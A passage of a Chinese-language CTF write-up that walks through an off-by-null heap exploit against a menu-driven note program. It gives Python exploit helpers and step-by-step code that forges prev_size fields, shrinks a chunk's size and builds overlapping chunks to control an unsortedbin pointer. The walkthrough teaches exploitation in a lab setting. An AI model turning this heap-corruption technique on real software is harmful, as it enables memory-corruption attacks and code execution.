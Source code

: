 	
	def add(size):
	  sla('Choice','1')
	  sla('?',str(size))
	
	def edit(index,text):
	  sla('Choice','2')
	  sla('?',str(index))
	  sa('Content',text)
	
	def free(index):
	  sla('Choice','3')
	  sla('?',str(index))

首先申请两组chunk，用来构造堆块重叠，并进入unsortedbin和largebin

	add(0x18)#0
	add(0x508)#1
	add(0x18)#2
	
	add(0x18)#3
	add(0x508)#4
	add(0x18)#5
	
	add(0x18)#6
	dbg()

 ![在这里插入图片描述](https://img-blog.csdnimg.cn/321b4d41c3014c2b879d9f599177de23.png)


然后构造两个伪造的prev_size，用于绕过malloc检查，保护下一个chunk的prev_size不被修改。

	edit(1,'a'*0x4f0+p64(0x500)) 
	edit(4,'a'*0x4f0+p64(0x500)) 
	
	dbg()
![](https://img-blog.csdnimg.cn/e61a65c715fa4284ac55a3b9905d09f6.png)
然后再free(1)，利用off-by-null编辑chunk_0，将chunk_1的size从0x510改为0x500，由于刚才构造的两个fake chunk，此时堆块已合并

	free(1)
	edit(0,'a'*0x18)#off-by-null改写chunk1的size为0x500
	
	dbg()
![在这里插入图片描述](https://img-blog.csdnimg.cn/9ec5985989204608aa56aafec155f7b5.png)
再申请两个chunk，使之恢复正常，之后free掉chunk_1和chunk_2，使之合并

	add(0x18)#1
	add(0x4d8)#7  
	
	free(1)
	free(2)    
	
	dbg()
![在这里插入图片描述](https://img-blog.csdnimg.cn/4e4ed9a1288a49189cef06355829b08d.png)
再次申请两个特定大小的chunk即可实现chunk7可以控制原unsortedbin chunk  0x4f1的bk指针，即我们可以用chunk_7来控制chunk_2(unsortedbin chunk),为便于理解我们可查看一下note这个存放全局chunk mem指针的数组
